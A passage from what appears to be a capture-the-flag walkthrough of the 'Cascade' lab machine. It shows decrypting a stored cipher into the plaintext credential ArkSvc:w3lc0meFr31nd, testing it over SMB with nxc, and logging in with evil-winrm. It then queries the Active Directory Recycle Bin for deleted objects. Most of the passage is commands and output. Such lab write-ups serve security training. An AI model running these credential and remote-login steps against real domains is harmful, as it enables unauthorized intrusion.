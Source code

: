 and input our cypher and iv:

```bash
cypher: BQO5l5Kj9MdErXx6Q6AGOw==

iv: 1tdyjCbY1Ix49842

key size: 128
```

![image.png]({{ site.baseurl }}/assets/cascade//image%204.png)

Now we have credential:

```bash
ArkSvc:w3lc0meFr31nd
```

Let’s test that out:

```bash
nxc smb 10.10.10.182 -u ArkSvc -p w3lc0meFr31nd

result:
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\ArkSvc:w3lc0meFr31nd 

```

Let’s enumerate the shares again:

```bash
nxc smb 10.10.10.182 -u ArkSvc -p w3lc0meFr31nd --shares
```

Nothing. Let’s logon as ArkSvc now:

```bash
evil-winrm -i 10.10.10.182 -u ArkSvc -p w3lc0meFr31nd
```

Using bloodhound, seeing our group membership:

![image.png]({{ site.baseurl }}/assets/cascade//image%205.png)

Search up how to view AD Recycle Bin. To view deleted objects:

```bash
Get-ADObject -Filter 'isDeleted -eq $true' -IncludeDeletedObjects

result:
Deleted           : True
DistinguishedName : CN=Deleted Objects,DC=cascade,DC=local
Name              : Deleted Objects
ObjectClass       : container
ObjectGUID        : 51de9801-3625-4ac2-a605-d6bd71617681

Deleted           : True
DistinguishedName : CN=CASC-WS1\0ADEL:6d97daa4-2e82-4946-a11e-f91fa18bfabe,CN=Deleted Objects,DC=cascade,DC=local
Name              : CASC-WS1
                    DEL:6d97daa4-2e82-4946-a11e-f91fa18bfabe
ObjectClass       : computer
ObjectGUID        : 6d97daa4-2e82-4946-a11e-f91fa18bfabe

Deleted           : True
DistinguishedName : CN=Scheduled Tasks\0ADEL:13375728-5ddb-4137-b8b8-b9041d1d3fd2,CN=Deleted Objects,DC=cascade,DC=local
Name              : Scheduled Tasks
                    DEL:13375728-5ddb-4137-b8b8-b9041d1d3fd2
ObjectClass       : group
ObjectGUID        : 13375728-5ddb-4137-b8b8-b9041d1d3fd2
```